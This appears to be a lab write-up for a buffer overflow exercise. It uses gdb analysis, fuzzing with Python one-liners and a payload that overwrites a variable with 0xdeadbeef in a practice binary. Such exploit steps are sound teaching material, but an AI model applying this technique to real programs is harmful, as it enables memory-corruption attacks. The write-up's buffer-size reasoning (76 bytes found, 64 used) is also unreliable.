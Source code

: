 # ex05 - Buffer Overflow Exploitation

## Overview
The objective of this challenge is to manipulate a binary executable to change the value of a specific variable, ultimately triggering the message "you have hit the target correctly :)".

## Steps to Identify and Exploit the Vulnerability

### Initial Analysis
We started by identifying the type of the binary and looking for any useful strings within it:
```sh
file bin
strings bin 
```

This helped us understand the program's basic characteristics and locate any relevant messages or hints.

### Disassembly with GDB

Next, we used GDB to set breakpoints, run the program, and disassemble the binary:
```sh
`gdb bin
(gdb) break main
(gdb) run
(gdb) disassemble main
(gdb) disassemble vuln
```

By doing so, we found the `vuln` function and noted its structure.

### Finding the Buffer Size

We used trial and error to determine the buffer size that causes a segmentation fault, indicating overflow:

```sh

`./bin $(python -c "print 'A'*32")
./bin $(python -c "print 'A'*48")
./bin $(python -c "print 'A'*64")
./bin $(python -c "print 'A'*65")
./bin $(python -c "print 'A'*70")
./bin $(python -c "print 'A'*75")
./bin $(python -c "print 'A'*76")  # Causes a segmentation fault`
    
```

From this, we found that 76 bytes cause a segmentation fault, meaning the buffer size is 76.

### Crafting the Payload

We then crafted a payload that writes the target value `0xdeadbeef` at the correct location in memory:



```python
python -c "print 'A'*64 + '\xef\xbe\xad\xde'"
```

### Explanation

The payload worked because:

1.  **Buffer Size**: We filled the buffer with 64 'A' characters, which aligns with the start of the buffer.
2.  **Target Value**: `\xef\xbe\xad\xde` is the little-endian representation of `0xdeadbeef`, which is the value we need to set in the target variable.
3.  **Placement**: By placing `0xdeadbeef` right after the buffer, it correctly overwrites the target variable.

### Running the Exploit

We executed the binary with the crafted payload:

```sh
./bin $(python -c "print 'A'*64+'\xef\xbe\xad\xde'")
```

This command successfully triggered the message:

```sh
you have hit the target correctly :)
```

Conclusion
----------

This exercise demonstrates the process of identifying a buffer overflow vulnerability, calculating the buffer size, and crafting a payload to manipulate program execution.

### Tools Used

-   `file`
-   `strings`
-   `gdb`
-   Python

### Educational Purpose

These methods and tools are used strictly for educational purposes to understand and protect against similar vulnerabilities.